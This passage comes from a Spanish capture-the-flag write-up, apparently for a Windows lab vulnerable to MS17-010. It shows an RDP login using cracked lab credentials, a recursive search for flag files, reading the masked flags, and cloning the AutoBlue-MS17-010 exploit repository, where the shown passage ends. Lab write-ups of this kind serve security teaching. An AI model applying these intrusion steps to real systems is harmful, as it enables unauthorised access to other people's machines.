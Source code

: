 Con estas credenciales, podemos optar por acceder a la máquina a través del protocolo RDP (`3389/tcp`) mediante el uso del siguiente comando:

```bash
rdesktop -u Jon -p alqfna22 -g 90% 10.10.206.58
```

Donde:

- `-u Jon`: indica el nombre de usuario que se utilizará para iniciar sesión en el servidor Windows al que se está conectando.
- `-p alqfna22`: indica la contraseña del usuario especificado en el argumento "-u".
- `-g 90%`: indica el tamaño de la pantalla del escritorio remoto en porcentaje de la pantalla del cliente.
- `10.10.206.58`: indica la dirección IP del servidor de escritorio remoto al que se va a conectar.

![rdp](/assets/img/commons/blue/rdp.png){: .center-image }

Como último paso, buscamos las banderas. Para agilizar la búsqueda, usamos el siguiente comando que realiza una búsqueda recursiva de archivos que coincidan con el patrón `flag`.

```bash
C:\>dir /s /b flag*
dir /s /b flag*
C:\flag1.txt
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt
```

Después de conocer las rutas absolutas de las banderas, procedemos a leer el contenido de cada una de ellas.

```bash
C:\>type C:\flag1.txt
type C:\flag1.txt
flag{***************}
C:\>type C:\Windows\System32\config\flag2.txt
type C:\Windows\System32\config\flag2.txt
flag{***************}
C:\>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
flag{***************}
```

### Explotación manual - SMB - **AutoBlue-MS17-010**

Para realizar la explotación manual, emplearemos el exploit disponible en el repositorio  → [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Así que primero clonaremos el repositorio en nuestro sistema.

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
```
